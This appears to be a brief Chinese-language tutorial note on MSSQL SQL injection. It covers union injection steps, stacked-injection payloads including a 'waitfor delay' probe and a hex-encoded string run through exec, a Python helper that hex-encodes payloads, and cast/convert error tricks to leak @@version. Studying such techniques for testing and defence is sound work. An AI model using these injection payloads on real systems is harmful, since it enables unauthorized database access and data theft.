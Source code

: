 ![](https://img.mi3aka.eu.org/2022/08/d554c23e9dd5f97eaca05e31f295b0ae.png)

## 联合注入

>mssql联合注入一般不使用数字占位,而是null,因为使用数字占位可能会发生隐式转换

基本思路与mysql一致

1. orderby判断列数

![](https://img.mi3aka.eu.org/2022/08/25d1f49d78e82a60c4ec284026c8e716.png)

2. 回显列判断

![](https://img.mi3aka.eu.org/2022/08/aab12904eeb93bd48bcc7146ef15b0d1.png)

3. 获取数据

![](https://img.mi3aka.eu.org/2022/08/78755696d0089b503e930cb4d9dbc0c4.png)

![](https://img.mi3aka.eu.org/2022/08/8c0f0a28d45d0fc3ce484606086330bc.png)

## 堆叠注入

1. `user_id=0;waitfor delay '0:0:5'`

![](https://img.mi3aka.eu.org/2022/08/ce111f2a79e462c79130fa32543be9f5.png)

2. `user_id=1;declare @a varchar(2000) set @a=cast(0x77616974666f722064656c61792027303a303a3527 as varchar(2000));exec(@a) --`

![](https://img.mi3aka.eu.org/2022/08/7009a5f980e2e4c3fdc52973f6e82165.png)

```python
payload="asdf"

print("0x",end="")
for ch in payload:
    print(str(hex(ord(ch)))[2:].zfill(2),end="")
```

## 常用函数/绕过技巧

```
CAST(expression AS data_type)
CONVERT(data_type[(length)], expression [, style])

select cast(@@version as int);
select convert(int,@@version);
```

![](https://img.mi3aka.eu.org/2022/08/68bc9cec97b4521088687c2012f2f126.png)

![](https://img.mi3aka.eu.org/2022/08/e7034b8787b893d004a1963d7de0f5a5.png)

```
len() //mssql没有length函数,只有len
for xml path('')//可以去除<row>标签,增加回显数量
```

>todo